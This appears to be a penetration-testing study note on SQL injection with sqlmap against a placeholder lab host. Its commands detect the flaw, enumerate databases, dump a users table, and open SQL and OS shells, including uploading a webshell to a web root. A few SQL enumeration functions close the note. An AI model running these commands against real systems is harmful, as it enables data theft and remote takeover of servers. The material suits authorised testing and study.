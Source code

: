 # Automation ([sqlmap](Tools.md#sqlmap))

##### See if vuln exists (Can specify parameter w/ **-p**)
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1"
```

##### Enumerate available databases
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --dbs
```

##### Enumerate given database's tables
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb --tables
```

##### Enumerate given db's table's columns
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb -T users --columns
```
  
##### Dump info
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb -T users --dump
```
  
##### Can try for a SQL shell
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --sql-shell
```

##### Or an OS shell
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --os-shell
```
	- Need to choose back-end DBMS (ASP, ASPX, PHP, JSP)  
	- Will ask “Retrieve command from standard output”. (yes, no, always)  

##### OS Shell & Time-Based attacks
For time-based attacks, it's not ideal to interact with a shell due to their high latency.

1. Intercept the POST request via Burp & save as a local text file on our vm
2. Invoke **sqlmap** using the **-r** parameter to use the previously saved file & save os-shell to the web-root /tmp directory
```bash
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```
- Once **sqlmap** confirms the vuln, it prompts for the language the webapp is written in, then uploads the webshell to the specified web folter & returns an interactive shell

### Inaccurate??



```sql
user()
```
	Shows user and hostname of the account interacting w/ the db  

```sql
database()
```
	Shows name of the db in use  


```sql
table_name FROM information_schema.tables
```
	Enumerates through all tables listed in schema  